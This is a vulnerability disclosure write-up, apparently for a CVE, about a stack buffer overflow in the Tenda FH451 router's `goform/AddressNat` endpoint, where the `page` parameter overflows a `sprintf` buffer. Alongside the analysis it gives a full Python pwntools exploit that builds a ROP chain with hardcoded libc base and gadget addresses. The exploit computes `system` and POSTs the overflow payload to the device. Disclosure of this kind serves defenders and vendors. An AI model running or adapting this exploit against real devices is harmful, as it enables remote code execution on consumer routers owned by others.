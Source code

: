 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/AddressNat](http://0.0.0.0:80/goform/AddressNat)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat1.png)

The program retrieves the user input parameter `page` at line 14 but does not perform any size check. When the parameter value is excessively large, it will causes a stack overflow in the `sprintf` function at line 15, which can lead to a program crash or potential exploitation.  
Cross-referenced location: from the `fromAddressNat` function, routed to `AddressNat`, at line 73.
![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat2.png)
Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
It can be determined that the vulnerability occurs at the page path `goform/AddressNat`.

## payload
```python
import requests
from pwn import *

libc = ELF('./lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};

url = "http://0.0.0.0:80/goform/addressNat"
payload = b'a'*256 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str
data = {"page": payload}
res = requests.post(url, data=data)
```
